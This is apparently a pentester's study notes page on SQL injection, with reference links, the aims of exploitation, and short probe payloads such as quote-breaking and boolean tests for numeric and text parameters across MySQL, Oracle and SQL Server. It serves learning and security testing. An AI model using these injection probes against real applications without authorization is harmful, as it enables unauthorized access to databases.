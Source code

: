 # SQL Injection
[TOC]
###### tags: `Security` `Web`

## Reference
* [⭐手動測試入門 | sushant747 OSCP guide](https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html)
* [pentestmonkey - SQL Injection Cheat Sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Sqli-labs](https://github.com/Audi-1/sqli-labs)
### cheat sheet
[portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
[portswigger training list](https://portswigger.net/training)

## Exploit Advantage
- 繞過驗證
- 撈資料庫內容
- 取得系統權限 (讀檔、RCE)

## Recon
### Where
* Cookie
* Get Parameter
* Post Parameter

### SQL vulnerable input type
- Numeric： `id=123`
    - `id=123*1` 輸出不變
    - `id=123/0` 輸出改變
    - `id=123 and 2=2` 輸出不變
    - `id=123 and 2=3` 輸出改變
- Text： `id=admin`
    - `id=admin'` 引號不匹配 輸出改變
    - `id=admin'%2b'` 字串相加 輸出不變
    - `id=admin' and '1'='1` 輸出不變
    - `id=admin' and '1'='2` 輸出改變
- Numeric Input
```
MySQL numeric function example: POW(1,1)
Oracle numeric function example: BITAND(1,1)
SQL Server numeric function example: SQUARE(1)
```
- Text Input
```
MySQL concatenation example: 'abc' 'def'
Oracle concatenation example: 'abc' || 'def'
SQL Server concatenation example: 'abc' + 'def'
```
   